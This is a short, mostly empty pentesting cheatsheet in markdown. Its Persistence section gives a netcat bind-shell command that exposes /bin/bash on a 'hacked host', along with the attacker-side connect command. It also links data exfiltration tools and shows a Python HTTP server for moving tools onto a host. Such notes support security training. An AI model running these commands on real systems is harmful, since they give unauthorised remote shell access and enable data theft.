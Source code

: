 # Pentesting Cheatsheet

## Information Gathering


## Footprinting and Scanning


## Vulnerability Assessment


## Web Attacks


## System Attacks


## Network Attacks


## Exploring Host
Search windows host.
```
dir /s /b stringToSearch
```

## Data Exfiltration
Find exfil options: https://github.com/stufus/egresscheck-framework
Exfil data over DNS: https://github.com/TryCatchHCF/PacketWhisper


## Persistence
Start listening server on hacked host.
```
nc -lvp 1337 -e /bin/bash
```
Access the shell using netcat from attacker box.
```
nc -v hackedBoxIP 1337
```
Now run any command you want to execute on the hacked host.


## C++


## Python
Simple HTTP Server
```
python -m SimpleHTTPServer 8080
```
This is useful to get tools to a host.

## Command Line Scripting
